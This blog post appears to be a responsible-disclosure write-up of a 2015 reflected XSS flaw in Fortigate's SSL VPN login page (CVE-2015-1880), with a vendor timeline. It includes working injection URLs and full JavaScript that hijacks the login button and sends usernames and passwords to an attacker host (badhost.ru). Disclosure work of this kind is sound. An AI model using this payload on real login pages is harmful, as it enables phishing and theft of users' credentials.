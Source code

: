 ```yaml
---
description: >-
  While evaluating VPN solutions for work, I found an XSS vulnerability in
  Fortigates SSL VPN login page that allowed me to steal credentials.
---
```


# XSS in Fortigates SSL VPN login page

_Originally Published: April 20th, 2015_

While evaluating a Fortigate VPN appliance, I noticed something weird about how it displayed errors on the login page.

![](https://www.psattack.com/webhook-uploads/1447717154611/fortigate_source.png)

It was rendering the value of the "err" parameter as a comment in the HTML.

#### Cross Site Scripting <a id="cross-site-scripting"></a>

Because Fortigate was rendering data directly from the web address into the webpage, there's the possibility for a cross site scripting vulnerability. Cross Site Scripting \(or XSS\) is where an attacker is able to make a webpage render HTML of their choosing. This attack is typically used to run malicious javascript which can be as simple as a popup message to something more dangerous like a browser exploit.

#### Proof of Concept <a id="proof-of-concept"></a>

Next step was to see if the err parameter could be manipulated so that I could put some javascript in the URL and have it render in the browser. To do this, we need to end the comment with "--&gt;", add our javascript, and to keep things clean we'll start a new comment string with "&lt;!--" to make sure we don't leave an open ended closing comment string that would render out to HTML.

So we end up with a URL like this:

```text
hxxps://vpn.example.com/remote/login?&err=--><script>alert(pop)</script><!--&lang=en
```

This results in the follow HTML being rendered:

![](https://www.psattack.com/webhook-uploads/1447717030867/fortigate_pop_source.png)

Which pops our alert:

![](https://www.psattack.com/webhook-uploads/1447717114987/fortigate_pop.png)

#### Doing some actual damage <a id="doing-some-actual-damage"></a>

So we can render javascript to the client. I wanted to see how far I could take this though, so I kept poking around. It turns out that when you click the "Login" button, instead of just posting the form it runs some javascript first. That's a pretty good place to start messing with things.

Let's adjust our URL so that instead of just popping a message, we load a javascript file from a "malicious webserver" that we control. Our new URL ends up looking like this:

```text
hxxps://vpn.example.com/remote/login?&err=--><script src="http://badhost.ru/r.js"></script><!--&lang=en
```

Putting this together, I wrote up the following javascript that when loaded, replaces the original javascript function for the login button. Now when a user enters their credentials, this new login function first sends the credentials to my website before passing them on the Fortigate appliance.

```text
function jah_login() {
    console.log("try_login run");
    var username = document.getElementById("username").value;
    var password = document.getElementById("credential").value;
    var url = "http://badhost.ru:5000/?user="+username+"&passwd="+password;
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", url, false );
    xmlHttp.send();
    console.log("Data sent.");
    try_login();
}

function update_login(){
    document.getElementById("err_str").style.display = "none";
    document.getElementById("err_val").style.display = "none";
    document.getElementById("login_button").onclick = jah_login;
}

setInterval(update_login, 1000);
```

The end result is a link that you can send to a victim and then silently get their VPN credentials. Here's a video of the final payload in action with the VPN login page on the left and the malicious website that is stealing credentials on the right.

\(Note that because of the text in the video, it's best to view it full screen and in HD\)

#### Disclosure <a id="disclosure"></a>

01/29/2015 - Vulnerabilty sent to psirt@fortigate.com

02/11/2015 - Fortigate acknowledges receipt of notice and began looking into it.

02/17/2015 - Fortigate confirms that the following FortiOS's are vulnerable: FortiOS 5.2.0 GA , 5.2.1 GA , 5.2.2 GA. Fix coming in FortiOS 5.2.3

02/23/2015 - Fortigate reserves CVE-2015-1880 for the issue

04/20/2015 - Fortigate releases FortiOS 5.2.3 and issues [advisory](http://www.fortiguard.com/advisory/FG-IR-15-005/).

